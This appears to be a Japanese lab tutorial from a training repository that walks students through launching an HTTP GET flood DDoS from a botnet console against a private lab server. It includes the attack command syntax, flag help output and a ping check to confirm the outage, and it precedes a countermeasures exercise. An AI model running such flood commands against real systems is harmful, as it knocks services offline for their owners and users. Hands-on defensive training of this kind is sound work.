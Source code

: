 	- HTTP GETリクエストを大量に送りつけてサービスを妨害する攻撃
- udp
	- UDPパケットを大量に送りつけてサービスを妨害する攻撃

全部で演習可能な攻撃は10種類あります．  
DDoS攻撃の中で，最も使用されている攻撃は，上から二つ目にあるSYN Flood攻撃になります． 


では，実際にコマンドを打って，攻撃を実行していきましょう．
攻撃対象のサーバのIPアドレスは,`172.23.0.2`です．  
pingコマンドで，サーバにアクセスできるか確認してください．

今回は例としてHTTP GET Flood攻撃を実施していきます．
HTTP GET Flood攻撃のコマンドを打っていきましょう．  
コマンドはhttp webサーバのipアドレス 攻撃時間 ?です．  
`?`は実行した際に，攻撃の詳細を表示するものとなっています．  
今回の攻撃時間は好きな長さで構いませんが，30秒間くらいで設定してください．  
すると，このような攻撃内容の結果が返ってくると思います．  
```
netlab@botnet# http 172.23.0.2 30 ?
List of flags key=val seperated by spaces. Valid flags for this method are

domain: Domain name to attack
dport: Destination port, default is random
method: HTTP method name, default is get
postdata: POST data, default is empty/none
path: HTTP path, default is /
conns: Number of connections

Value of 65535 for a flag denotes random (for ports, etc)
Ex: seq=0
Ex: sport=0 dport=65535
netlab@botnet#
```
英語ではわかりにくいと思うので，日本語に訳したものも載せておきます．  
```
netlab@botnet# http 172.23.0.2 30 ?
スペースで区切られたフラグのリスト．メソッドで有効なフラグは以下の通りです．

ドメイン: 攻撃するドメイン名
宛先ポート: デフォルトはランダム
HTTPメソッド名: デフォルトはget
POSTデータ: デフォルトは"/"
HTTPのパス: デフォルトは"/"
コネクション: ボット一台からの同時接続数 

フラグの値が65535の場合はランダムに設定
Ex: seq=0
Ex: sport=0 dport=65535
netlab@botnet#
```
今回の攻撃内容として，
- ドメイン名の指定なし
- 宛先ポートはランダム
- HTTP GET Flood攻撃なのでHTTPメソッドはGET（HTTP POST Flood攻撃もあるのですが，その場合はPOSTで設定します）
- 攻撃対象のHTTPのパスは"/"
- コネクションは指定なし
となっています．

攻撃の実施後，pingコマンドを再発行することで，正常にアクセスできなくなっていることがわかると思います．
その他の攻撃も色々試してみてください．

攻撃演習は以上となります．
対策演習に進んでください．
